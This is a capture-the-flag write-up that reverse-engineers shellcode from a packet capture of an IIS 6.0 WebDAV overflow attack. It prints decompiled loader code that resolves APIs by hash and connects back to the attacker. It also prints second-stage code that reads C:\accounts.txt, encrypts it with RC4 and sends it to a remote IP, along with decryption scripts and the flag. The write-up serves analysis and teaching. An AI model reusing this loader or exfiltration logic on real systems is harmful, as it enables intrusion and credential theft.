



7 - re_crowd
============

**Time spent:** 4-5 hours

**Tools used:** Wireshark, Ghidra, C#, Python

Up until now, most challenges have been fairly straightforward with a clear target executable file (with the exception of challenge 4). However, the more we progress, the more realistic they get in terms of an incident response scenario. In the seventh task, we are not given a binary or script that we can just throw into a disassembler and/or debugger. Instead, we are provided with a network packet capture, along with a note that tells us a server of a company called Reynholm Industries was hacked. Our job is to figure out what had happened and what they have stolen from the server, without having access to the server itself.

Orientation
-----------

The first thing that you'll probably notice while opening up the pcapng file in Wireshark, is that the capture consists of a lot of HTTP traffic. Let's look at some of the files that are transmitted (File > Export Objects > HTTP).


Looking at this, we can see a web page was requested, together with a CSS file and some image files. Let's export them and open the index html page in a browser (the exported files can be found [here](exportedfiles)).


The web page that was downloaded seems to be some forum hosted on the server that has recorded a conversation between the employees. If we skim through the conversation, we can see something interesting. Here's an excerpt of it:

```
Jen:      Moss, I need a list of employee's user names and passwords.
Moss:     Jen, sending you that list would would go against our cybersecurity
          policy. 
Denholm:  Jen. I emailed you a secret file containing a list of all our employee's 
          usernames and passwords as well as favorite animal. Get them using this 
          site.
Jen:      Roy, can you help me create the accounts? I saved the file to 
          C:\accounts.txt on the server.
Roy:      Fine. Swing by my desk later. I'm not happy about this, not one bit.
Moss:     Jen, that server seems awfully old. You might want to think about 
          applying the latest security patches.
Denholm:  Moss. This doesn't feel like a quilt and besides I don't like patches. 
          It holds water as it is.
```

From this conversation we can find a lot of important information. For one, the server has a file called `C:\accounts.txt` stored. Furthermore, the server seemed to be running outdated software. If we look into one of the HTTP responses sent by the server, we can see that the server ran Microsoft-IIS/6.0:


If we look a little further in the capture, we can see that a lot of odd-looking `PROPFIND` requests are sent to the server and most of them contain a very long seemingly random ASCII string. What is even more curious, is the sheer amount of internal server errors that the server responded with.


Clearly something fishy is going on here.

Initial Investigation
---------------------

We know that the server runs IIS 6.0. We also know that the server receives a bunch of large malformed PROPFIND requests. PROPFIND is part of the WebDAV HTTP extension. Furthermore, when a program crash is triggered by large malformed data inputs, it is often an indication of what is known as a buffer overflow vulnerability. If you don't know what buffer overflow vulnerabilities are, there's tons of articles and/or videos about it all across the internet.

Let's look up if there's any known vulnerabilities on IIS 6.0, and confirm our suspicion:


Bingo! Looks like this old version of IIS has a vulnerability that leads to code execution. What's even more great, is that the second link in the screenshot (https://www.fortinet.com/blog/threat-research/buffer-overflow-attack-targeting-microsoft-iis-6-0-returns) talks a great deal about it. In particular, it talks a great deal about the technicalities, including what the contents looks like in the PROPFIND requests, and even a nice python script that decodes it for us! Here's the script, transcribed to python 3:

```python
encoded_bytes = ...

decoded_bytes = bytearray([])
for i in range(len(encoded_bytes)//2):
    block=encoded_bytes[i*2:i*2+2]
    decoded_byte_low = block[1] & 0x0F
    decoded_byte_high = (((block[1]) >> 4) + ((block[0]) & 0x0F)) & 0x0F
    decoded_byte=decoded_byte_low + (decoded_byte_high <<4)
    decoded_bytes.append(decoded_byte)

with open("decrypted.bin", "wb") as f:
    f.write(decoded_bytes)
```

If we pick a random weird-looking PROPFIND request and feed the data through the script, we get a nice decoded binary file containing x86 shell-code. In the remaining, we are assuming the shell code and its addresses as indicated by [this dump](decrypted.bin), which has an entrypoint at address 0x151.

Let the reversing begin!
------------------------

The shell code's entry point starts off with a call to `0x000001d8`, which we refer to as `shellmain` from now on. Looking into `shellmain`, we see some weird stuff going on:

```c
void shellmain(void)
{
    /* ... */
    
    local_8 = &uStack4;
    uStack4 = 0x5f327377; // "ws2_32"
    uStack12 = 0x726774c;
    uStack16 = 0x1eb;
    (*unaff_retaddr)(); // weird call
    puStack416 = auStack412;
    uStack420 = 400;
    uStack424 = 0x6b8029;
    iStack428 = 0x1fb;
    iStack440 = (*unaff_retaddr)(); // weird call
    iStack444 = iStack440 + 1;
    iStack448 = iStack440 + 2;
    uStack452 = 0xe0df0fea;
    iStack456 = 0x20a;
    iStack436 = iStack440;
    iStack432 = iStack440;
    iStack428 = iStack440;
    uVar3 = (*unaff_retaddr)(); // weird call
    iStack456 = 5;
    uStack460 = 0x1544a8c0;
    uStack464 = 0x5c110002;
```

We do see some trace of `ws2_32`, but it makes calls to the return address? Let's go the entrypoint again, where `shellmain` is called. If the return address of this function call is used as an address of another procedure, then that must mean whatever comes after the shellmain call is actually a new function. Let's create a new function at address `0x00000156`, and see what it does:

```c
void FUN_00000156(int param_1)
{
    puVar5 = *(*(*(in_FS_OFFSET + 0x30) + 0xc) + 0x14);
    /* ... */                   

        iVar4 = *(*(iVar1 + 0x3c) + 0x78 + iVar1);
        
    /* ... */         
```

For the untrained eye, this would look really weird. What is `in_FS_OFFSET`? What are these magic constant offsets? Before we can answer that, let's talk a bit about some windows internals.

TEB, PEB, and more...
---------------------

If we do a quick search on the web on what the `FS` register is used for on Windows 32-bit, we quickly find out that a lot of pages talk about what is known as the **Thread Environment Block**, or TEB for short. [Wikipedia](https://en.wikipedia.org/wiki/Win32_Thread_Information_Block) has a good article about this. The TEB is a data structure that is associated to every thread that is running on the system, and contains all kinds of information that help Windows run the thread code. In particular, it contains a field at offset `0x30`, which is a pointer to what is known as the **Process Environment Block**, or PEB for short. The PEB structure serves a role similar to the TEB, except it is assigned to every process instead of every thread. A more detailed description of both structures can be found on https://undocumented.ntinternals.net/, which is a gold mine of inforamtion about all kinds of internal Windows structures.

The important thing to note here, is that the PEB contains a pointer to an instance of `PEB_LDR_DATA` at offset `0xC`, which in turn contains three linked lists called `InLoadOrderModuleList`, `InMemoryOrderModuleList`, and `InInitializationOrderModuleList`.  These lists contain elements of type `LDR_MODULE` that represent all modules that are loaded in the current process by the Windows PE loader. Here is the definition:

```c
typedef struct _LDR_MODULE {
  LIST_ENTRY              InLoadOrderModuleList;
  LIST_ENTRY              InMemoryOrderModuleList;
  PVOID                   BaseAddress;
  PVOID                   EntryPoint;
  ULONG                   SizeOfImage;
  UNICODE_STRING          FullDllName;
  UNICODE_STRING          BaseDllName;
  ULONG                   Flags;
  SHORT                   LoadCount;
  SHORT                   TlsIndex;
  LIST_ENTRY              HashTableEntry;
  ULONG                   TimeDateStamp;
} LDR_MODULE, *PLDR_MODULE;
```

We can see that it contains some interesting definitions like the file name, as well as the base address and size of the module.

Calling procedures by hash codes
--------------------------------

How does this information help us? Let's go back to our function. The first line tells us that we are accessing the pointer at `FS + 0x30`. This is a reference to the current PEB! Then we take the offset 0xC, and dereference again, this is the pointer to the `PEB_LDR_DATA`. Finally we increase that pointer by 0x14 to get to the first `LDR_MODULE` entry in our loaded modules list. Now that we know that, we can start retyping in Ghidra:

```c

void FUN_00000156(int checksum)
{
    /* ... */
    
    // Get LDR module list.
    moduleList = *(*(*(in_FS_OFFSET + 0x30) + 0xc) + 0x14);
    do {
        // Compute a checksum of the dll name (uppercased).
        length = (moduleList->BaseDllName).MaximumLength;
        dllnamesum = 0;
        ptr = (moduleList->BaseDllName).Buffer;
        do {
            c = *ptr;
            if ('`' < c) {
                c = c - 0x20;
            }
            dllnamesum = (dllnamesum >> 0xd | dllnamesum << 0x13) + c;
            length = length - 1;
            ptr = ptr + 1;
        } while (funcsum != 0);

        // Get base address.
        base_address = moduleList->DllBase;

        /* ... <<use base address here>> ... */

        // move to the next module.
        moduleList = (moduleList->InLoadOrder).Flink;
    } while( true );
}

```

We can see that our function is looping over all loaded modules in the list, and then grabs the module's base address. Zooming in a little, we can see it parses the PE header of the module to move to the exports directory:

```c
exports_ptr = *(*(base_address + 0x3c) + 0x78 + base_address);
if (exports_ptr != 0) {
    exports_dir = exports_ptr + base_address;
    nameCount = exports_dir->NumberOfNames;

    // For every export...
    while (nameCount != 0) {
        nameCount = nameCount - 1;

        // Compute a checksum of the export name.
        funcsum = 0;
        func_name_ptr = *(exports_dir->AddressOfNames + base_address + nameCount * 4) + base_address;
        do {
            c = *func_name_ptr;
            funcsum = (funcsum >> 0xd | funcsum << 0x13) + c;
            func_name_ptr = func_name_ptr + 1;
        } while (c != 0);

        // If export's name checksum + module name checksum == parameter, call it.
        if (funcsum + dllnamesum == checksum) {
            (*(*(exports_dir->AddressOfFunctions + base_address +
                (nameCount & 0xffff0000 | *(exports_dir->AddressOfNameOrdinals + base_address + nameCount * 2))
                * 4) + base_address))();
            return;
        }
    }
}
```

This reveals that our mysterious function is calling exports by a hash code! We can build a mapping of known hash codes to functions, by writing a C# program that takes every single DLL in `C:\Windows\System32`, parses the PE headers, and computes the hash code of every single export that they define. An implementation of such a program can be found [here](HashToFunction.cs). Disclaimer: It uses AsmResolver to do the PE parsing, so it is a bit of self-advertisement :).

Making heads and tails of the shell code
----------------------------------------

We know that the return address is used as an address to call exports by a hash code. We also have constructed a mapping from hashes. All that is left is simply annotating everything in the original code:

```c
void shellmain(void)
{
    /* ... */
                    /* LoadLibrary("ws2_32.dll") */
    (*pCallByChecksum)(0x726774c,&uStack4);
                    /* WSAStartup */
    (*pCallByChecksum)(0x6b8029,400,&stack0xfffffe64);
                    /* WSASocketA */
    socket = (*pCallByChecksum)(0xe0df0fea);
    i = 5;
    /* ... */
    do {
        /* ... */
                    /* connect */                                
        *(puVar2 + -0x10) = 0x6174a599;
        /* ... */
        ptr = (*pCallByChecksum)(*(puVar2 + -0x10),*(puVar2 + -0xc),*(puVar2 + -8),*(puVar2 + -4));
        if (ptr == 0x0) goto LAB_00000234;
        i = i + -1;
        puVar1 = puVar2 + -0x10;
    } while (i != 0);
    puVar3 = puVar2 + -0x14;
                    /* ExitProcess */
    *(puVar2 + -0x14) = 0x56a2b5f0;
    /* ... */
    (*pCallByChecksum)(*(puVar2 + -0x14));
LAB_00000234:
    /* ... */
                    /* recv */
    *(puVar3 + -0x14) = 0x5fc8d902;
    /* ... */
    (*pCallByChecksum)(*(puVar3 + -0x14),*(puVar3 + -0x10),*(puVar3 + -0xc),*(puVar3 + -8),*(puVar3 + -4));
    size = puVar6 ^ 0x524f584b;
    /* ... */
                    /* VirtualAlloc */
    *(puVar3 + -0x28) = 0xe553a458;
    /* ... */
    ptr = (*pCallByChecksum)(*(puVar3 + -0x28),*(puVar3 + -0x24),*(puVar3 + -0x20),*(puVar3 + -0x1c),*(puVar3 + -0x18));
    i = ptr + 0x100;
    *(puVar3 + -0x2c) = i;
    *(puVar3 + -0x30) = size;
    *(puVar3 + -0x34) = ptr;
    puVar1 = puVar3 + -0x34;
    do {
        /* ... */
                    /* recv */
        *(puVar4 + -0x14) = 0x5fc8d902;
        /* ... */
        ptr = (*pCallByChecksum)(*(puVar4 + -0x14));
        i = i + ptr;
        size = size - ptr;
        puVar1 = puVar4 + -0x14;
    } while (size != 0);
    /* ... */
    rc4_decrypt(buffer,uVar5,count,puVar4[-0x14]);
    return;
}
```

Even though the code still looks like a lot of pointer magic, the general flow is simple now. We connect to some endpoint, we receive 4 bytes indicating the message size (xor'ed by `0x56a2b5f0`), we then allocate the amount of memory to store the message, then receive the message, and then decrypt the message using the RC4 algorithm. In this RC4 function, we can see the key being pushed again as a return address, similar to how the `CallByChecksum` was passed onto `shellmain`.



Finding and decrypting the payload
----------------------------------

We know the encryption algorithm, let's find the data to decrypt in the packet capture. This is easy to find. We just need to find any outgoing connection from the server. It so happens to be TCP stream 50:


A dump of this stream can be found in [encrypted_payload.bin](encrypted_payload.bin). Onto decryption, we write a simple Python script:

```python
from arc4 import ARC4

with open("encrypted_payload.bin", "rb") as f:
    data = f.read()
data = data[4:]

arc4 = ARC4("killervulture123")
data = arc4.decrypt(data)

with open("payload.bin", "wb") as f:
    f.write(data)
```

A dump can be found in [payload.bin](payload.bin).

Are we there yet?
-----------------
It so happens this decrypted payload is another piece of shellcode. Here is the entrypoint:

```c
void main(void)
{
    /*...*/
    
    local_14[3] = 0;
    local_14[0] = 0x46d;
    local_14[1] = 0x479;
    local_14[2] = 0;
    global_table_ptr = uint32_t_ARRAY_0000048d;
    ptr = local_14;
    do {
        while (*ptr == 0) {
            uVar1 = actual_main();
            (**(local_14[3] + 0x471))(uVar1);
        }
        dll_sum = *global_table_ptr;
        ii = 0;
        while( true ) {
            global_table_ptr = global_table_ptr + 1;
            addr = resolve_import_address(dll_sum,*global_table_ptr);
            if (addr == 0) break;
            *(*ptr + ii * 4) = addr;
            ii = ii + 1;
        }
        ptr = ptr + 1;
    } while( true );
}
```

Again, we are resolving imports by hash code, though this time, we are building a table of function pointers based on the contents of `uint32_t_ARRAY_0000048d` before we run the actual main method. Also the lookup algorithm is slightly different; most noteably, we separate the dll and function name instead of adding them together. Changing our initial hashcode-to-function-name program accordingly ([HashToFunction_Layer2.cs](HashToFunction_Layer2.cs)), gives us the following:



Let's dive into `actual_main`:

```c
void actual_main(void)
{
    /* ... */
        
    file_handle = (*pCreateFileA)(s_C:\accounts.txt_000004b9,0x80000000,1,0,3,0,0);
    (*ReadFile)(file_handle,buffer,0x100,&length,0);
    uVar3 = 0xffffffff;
    p = s_intrepidmango_000004c9;
    do {
        if (uVar3 == 0) break;
        uVar3 = uVar3 - 1;
        cVar1 = *p;
        p = p + 1;
    } while (cVar1 != '\0');
    setup_rc4(~uVar3 - 1,s_intrepidmango_000004c9,output_buffer);
    do_cipher(length,buffer,output_buffer);
    (*WSAStartup)(0x202,local_1a0);
    iVar2 = create_socket(extraout_ECX,CONCAT22(extraout_var,0x539),0xc0a84415);
    (*send)(iVar2,buffer,length,0);
    (*shutdown)(iVar2,2);
    return;
}
```

Fairly obvious what is happening here, now that we have resolved all imports. We are reading the `C:\\accounts.txt`, encrypting it with RC4, this time using `intrepidmango` as encryption key, and then sending it over through a socket. 

Getting the flag
----------------

It so happens this response data is sent in TCP stream 51 of the packet capture. An export of the transmitted data can be found in [encrypted_response.bin](encrypted_response.bin):



Decryption is also easy, we can just edit our python script accordingly. This results in the following file contents:

```
roy:h4ve_you_tri3d_turning_1t_0ff_and_0n_ag4in@flare-on.com:goat
moss:Pot-Pocket-Pigeon-Hunt-8:narwhal
jen:Straighten-Effective-Gift-Pity-1:bunny
richmond:Inventor-Hut-Autumn-Tray-6:bird
denholm:123:dog
```

... revealing the flag.